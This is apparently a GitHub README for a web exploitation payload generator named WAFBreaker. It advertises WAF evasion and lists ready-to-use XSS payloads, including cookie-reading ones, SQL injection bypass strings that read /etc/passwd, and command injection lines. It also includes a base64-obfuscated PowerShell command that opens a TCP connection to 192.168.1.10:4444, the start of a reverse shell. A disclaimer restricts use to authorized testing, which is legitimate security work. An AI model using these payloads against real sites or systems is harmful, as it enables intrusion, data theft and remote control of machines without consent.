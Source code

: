 # 🛡️ Web Exploitation Payload Generator

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

> **The ultimate toolkit for security professionals**  
> Generate, test, and analyze evasion-ready payloads for critical web vulnerabilities

## 📋 Table of Contents
- [✨ Key Features](#key-features)
- [⚙️ Installation](#installation)
- [🚀 Usage Examples](#usage-examples)
- [🔧 Payload Modules](#payload-modules)
- [🔌 API Integration](#api-integration)
- [📤 Sample Outputs](#sample-outputs)
- [🤝 Contributing](#contributing)
- [📜 License](#license)
- [⚠️ Legal Disclaimer](#legal-disclaimer)

---

<a id="key-features"></a>
## ✨ Key Features

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

---

<a id="installation"></a>
## ⚙️ Installation

```


# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI_OPTIONS]  # Command-line interface
python main.py                # Graphical interface
```

---

<a id="usage-examples"></a>
## 🚀 Usage Examples

### CLI Interface (Penetration Testing)

```bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
```

### GUI Interface (Security Training)
##### Open GUI Interface , just type: 
python main.py

![WAF GUI Interface](images/WAFGui.PNG)

Interactive payload generation with real-time preview

## 📸 Screenshots & Testing Examples

### Tool Interface & Testing Results

![WAFBreaker Interface 1](images/WAFBreaker34.PNG)


![WAFBreaker Interface 2](images/WAFBreaker5.PNG)


![WAFBreaker Testing 1](images/WAFbreaker3.PNG)


![WAFBreaker Testing 2](images/WAFbreaker4.PNG)


### Performance & Analysis

![Graph Analysis](images/Grappph.png)
*Performance metrics and payload success rate analysis*

---

<a id="payload-modules"></a>
## 🔧 Payload Modules

### 1. XSS Payload Generator

```html
<!-- DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
```

### 2. SQL Injection Engine

```sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
```

### 3. Command Injection

```bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami
```

```powershell
# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
```

---

<a id="api-integration"></a>
## 🔌 API Integration

```python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
```

---

<a id="sample-outputs"></a>
## 📤 Sample Outputs

### JSON Export

```json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
```

### Command-Line Output

```text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
```

---

<a id="contributing"></a>
## 🤝 Contributing

We welcome security researchers and developers to:

- Report issues and suggest features
- Submit PRs with new payload modules
- Improve evasion techniques
- Add support for additional security tools

See our [Contribution Guidelines](CONTRIBUTING.md) for details.

---

<a id="license"></a>
## 📜 License

This project is licensed under the MIT License - see [LICENSE](LICENSE) file for details.

---

<a id="legal-disclaimer"></a>
## ⚠️ Legal Disclaimer

**Important:** This tool is intended solely for:

- Educational purposes
- Security research
- Authorized penetration testing
- Improving defensive strategies

**Never use this tool on systems without explicit written permission.** The developers assume no liability and are not responsible for any misuse or damage caused by this software.
